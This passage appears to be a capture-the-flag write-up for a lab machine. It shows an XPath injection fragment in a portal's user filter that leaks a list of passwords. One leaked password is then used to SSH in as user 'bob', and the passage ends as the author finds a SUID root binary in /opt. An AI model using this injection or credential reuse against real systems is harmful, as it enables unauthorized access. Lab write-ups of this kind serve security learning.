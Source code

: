 ```
Search users by services:After logging in with `test@wheels.service`, we are able to successfully login and access the Employee portal.

The `portal.php` page has an option to filter users by services, specifically `car & bike`. After clicking on each filter, we see two sets of what appear to be usernames.

The car filter: </b></td>
</tr>
XML Error; No ')]/password | a[contains(a,' entity found
<tr  height="40"  bgcolor="#c8dbde"  align="center">
<td>1</td>
<td  width="200"><b>Iamrockinginmyroom1212</b></td>
</tr>
<tr  height="40"  bgcolor="#c8dbde"  align="center">
<td>2</td>
<td  width="200"><b>iamarabbitholeand7875</b></td>
</tr>
<tr  height="40"  bgcolor="#c8dbde"  align="center">
<td>3</td>
<td  width="200"><b>johnloveseverontr8932</b></td>
</tr>
<tr  height="40"  bgcolor="#c8dbde"  align="center">
<td>4</td>
<td  width="200"><b>lokieismyfav!@#12</b></td>
</tr>
<tr  height="40"  bgcolor="#c8dbde"  align="center">
<td>5</td>
<td  width="200"><b>alreadydead$%^234</b></td>
</tr>
<tr  height="40"  bgcolor="#c8dbde"  align="center">
<td>6</td>
<td  width="200"><b>lasagama90809!@</b></td>
</tr>
```

The first Password in the list was `Iamrockinginmyroom1212` and the first name, when enabling the `car` filter, is `bob`. This may indicate this user has this password.

We can SSH into user `bob` with password `Iamrockinginmyroom1212` and gain a low privilege shell.

## Privilege Escalation

Navigating to the `/opt/` directory, we see a binary `get-list` with the `SUID` permission set to `root`

```
$ ls -la /opt
total 28
drwxr-xr-x 2 root root 4096 Mar 15 20:57 .
-rwsr-sr-x 1 root root 17336 Mar 15 17:03 get-list
```

